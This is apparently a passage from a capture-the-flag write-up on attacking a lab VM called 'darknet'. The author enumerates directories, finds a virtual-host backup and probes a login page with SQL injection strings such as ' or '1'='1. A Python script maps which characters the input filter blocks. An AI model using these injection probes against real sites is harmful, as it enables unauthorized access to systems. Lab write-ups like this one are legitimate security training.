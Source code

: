There's no `robots.txt` so nothing left to do but run `dirbuster` on it. Using the
`directory-list-2.3-medium.txt` I'm rewarded with some directories and files that
might be of interest

{{< figure src="http://i.imgur.com/dNQnSQy.png" >}}

I downloaded the `888.darknet.com.backup` file and took a look at it.

{{< highlight text >}}
<VirtualHost *:80>
    ServerName 888.darknet.com
    ServerAdmin devnull@darknet.com
    DocumentRoot /home/devnull/public_html
    ErrorLog /home/devnull/logs
</VirtualHost>
{{< / highlight >}}

Hrmm.. a virtual host configuration. I added `192.168.56.106 888.darknet.com` to my local `/etc/hosts` 
and then pointed my browser to `888.darknet.com` to be presented with this:

{{< figure src="http://i.imgur.com/PcMHBLd.png" >}}

Initial thoughts are SQLi, so  I started with some simple SQL injections to see 
if my hunch is correct. Entering a username like `' or '1'='1` 
yields an *Ilegal*[sic] message. So this means two things: 1) SQLi is very
probably here becasue 2) our input is filtered. I didn't fancy working out
what chars I can and can't use so I made a script to do that for me

{{< highlight python >}}
#!/usr/bin/python

import requests
import string
import re

def testit(c):
    url = 'http://888.darknet.com/index.php'
    payload = 'username=%s&password=%s&Action=Login' % (c, c)

    r = requests.post(url, data=payload)
    m = re.search('.*Ilegal.*', r.text)
    if m:
        print '%s\tIllegal' % c
    else:
        print '%s\t OK' % c

for c in string.punctuation:
    testit(c)

{{< / highlight >}}

which yielded the following as illegal characters.

{{< highlight text >}}
,	Illegal
-	Illegal
;	Illegal
<	Illegal
=	Illegal
>	Illegal
{{< / highlight >}}
